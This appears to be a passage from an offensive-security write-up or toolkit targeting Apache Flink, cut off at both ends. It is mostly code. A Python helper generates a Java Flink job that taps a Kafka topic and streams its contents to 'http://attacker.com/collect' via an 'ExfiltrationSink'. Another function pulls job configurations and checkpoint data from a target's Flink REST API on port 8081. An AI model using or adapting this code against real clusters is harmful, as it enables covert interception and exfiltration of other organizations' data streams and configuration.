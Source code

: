 ```python
        "sinks": sinks,
        "interception_points": len(sources) + len(sinks)
    }

def create_data_tap_job():
    """Create Flink job to tap into data streams"""
    job_code = """
    import org.apache.flink.streaming.api.environment.StreamExecutionEnvironment;
    import org.apache.flink.streaming.api.datastream.DataStream;
    import org.apache.flink.api.common.serialization.SimpleStringSchema;
    import org.apache.flink.streaming.connectors.kafka.FlinkKafkaConsumer;
    
    public class DataTap {
        public static void main(String[] args) throws Exception {
            StreamExecutionEnvironment env = StreamExecutionEnvironment.getExecutionEnvironment();
            
            // Tap into Kafka stream
            Properties props = new Properties();
            props.setProperty("bootstrap.servers", "extracted-broker:9092");
            props.setProperty("group.id", "security-analysis");
            
            FlinkKafkaConsumer<String> consumer = new FlinkKafkaConsumer<>(
                "target-topic", 
                new SimpleStringSchema(), 
                props
            );
            
            DataStream<String> stream = env.addSource(consumer);
            
            // Exfiltrate to external endpoint
            stream.addSink(new ExfiltrationSink("http://attacker.com/collect"));
            
            env.execute("Data Tap");
        }
    }
    """
    return job_code
```

### Configuration and State Extraction

```python
def extract_application_state(target_host):
    """Extract application state and configuration"""
    base_url = f"http://{target_host}:8081"
    
    state_data = {}
    
    # Get all jobs
    jobs = requests.get(f"{base_url}/jobs").json()
    
    for job in jobs.get("jobs", []):
        job_id = job["id"]
        
        # Job configuration
        config = requests.get(f"{base_url}/jobs/{job_id}/config").json()
        state_data[job_id] = {
            "config": config,
            "checkpoints": [],
            "metrics": {}
        }
        
        # Checkpoint information
```